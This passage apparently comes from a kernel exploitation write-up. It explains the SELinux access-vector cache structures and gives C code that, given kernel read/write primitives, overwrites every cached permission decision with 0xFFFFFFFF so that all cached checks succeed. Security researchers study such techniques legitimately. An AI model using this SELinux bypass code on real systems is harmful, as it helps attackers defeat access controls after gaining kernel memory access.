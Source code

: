 As can be seen, the `avc_cache` has a hash table of `avc_node`s. It first calculates the slot or bucket by hashing the `ssid`, `tsid` and `tclass` together, and then iterates that slot looking for the exact match. From the returned node, what is interesting to us is the field `node->ae.avd.allowed`, whose bits indicate which permissions are allowed. If we iterate every node in the `avc_cache` and overwrite that field with `0xFFFFFFFF`, every permission check that was previously cached would now succeed.

```
struct avc_cache {
	struct hlist_head	slots[AVC_CACHE_SLOTS]; /* head for avc_node->list */
	[...]
};

struct avc_node {
	struct avc_entry	ae;
	struct hlist_node	list; /* anchored in avc_cache->slots[i] */
	[...]
};

struct avc_entry {
	u32			ssid;
	u32			tsid;
	u16			tclass;
	struct av_decision	avd;
	struct avc_xperms_node	*xp_node;
};
```

```
struct av_decision {
	u32 allowed;
	u32 auditallow;
	u32 auditdeny;
	u32 seqno;
	u32 flags;
};
```

Therefore, the bypass would look something like this:

```
#define AVC_CACHE_SLOTS 512
#define AVC_DECISION_ALLOWALL 0xffffffff

void overwrite_avc_cache(uint64_t avc_cache_addr) {
	for (size_t i = 0; i < AVC_CACHE_SLOTS; i++) {
		uint64_t avc_cache_slot_list = kread64(avc_cache_addr + i*sizeof(uint64_t));
		while (avc_cache_slot_list) {
			uint64_t avc_decision_addr = avc_cache_slot_list - 0x1c;
			kwrite32(avc_decision_addr, AVC_DECISION_ALLOWALL);
			avc_cache_slot_list = kread64(avc_cache_slot_list);
		}
	}
}
```
